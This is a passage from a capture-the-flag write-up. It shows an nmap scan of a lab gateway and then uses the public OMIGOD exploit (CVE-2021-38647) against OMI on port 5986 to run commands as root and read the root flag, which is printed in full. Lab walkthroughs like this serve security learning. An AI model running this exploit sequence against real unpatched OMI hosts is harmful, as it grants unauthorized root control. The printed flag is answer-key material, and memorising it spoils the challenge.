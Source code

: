 ```console
Increasing send delay for 172.17.0.1 from 160 to 320 due to 11 out of 32 dropped probes since last increase.
Discovered open port 5986/tcp on 172.17.0.1
SYN Stealth Scan Timing: About 75.00% done; ETC: 05:54 (0:01:10 remaining)
Increasing send delay for 172.17.0.1 from 320 to 640 due to 11 out of 29 dropped probes since last increase.
SYN Stealth Scan Timing: About 85.67% done; ETC: 05:54 (0:00:40 remaining)
Increasing send delay for 172.17.0.1 from 640 to 1000 due to 11 out of 33 dropped probes since last increase.
Completed SYN Stealth Scan at 05:54, 281.22s elapsed (65535 total ports)
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received arp-response (0.000040s latency).
Scanned at 2022-10-22 05:50:10 UTC for 281s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:4F:F3:92:56 (Unknown)
Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 281.44 seconds
           Raw packets sent: 196823 (8.660MB) | Rcvd: 230 (9.396KB)
```

- Port `5985` and `5986` seems to be suspicious, so on googling ans search found [hackticks.xyz](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) blog on OMI .
- Downloaded [this](https://github.com/horizon3ai/CVE-2021-38647/blob/main/omigod.py) exploit from github.  
- On running this script found that we have to specify two parameters `target` (gateway) and `command`.
```console
root@4a70924bafa0:/tmp# python3 omigod.py
usage: omigod.py [-h] -t TARGET [-c COMMAND]
omigod.py: error: the following arguments are required: -t/--target
```
- For testing purpose sent a `whoami` command. 
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c whoami
root
```
- Thank god we are root, otherwise I had to add my forward my proxy and upgrade my privileges.
- So I directly tried to find the root flag, and got it.
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c "find / -name 'root.txt' 2>/dev/null"
/root/root.txt
```
- Read the root flag and done :stuck_out_tongue_winking_eye: .
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c "cat /root/root.txt"
THM{7f147ef1f36da9ae29529890a1b6011f}
```
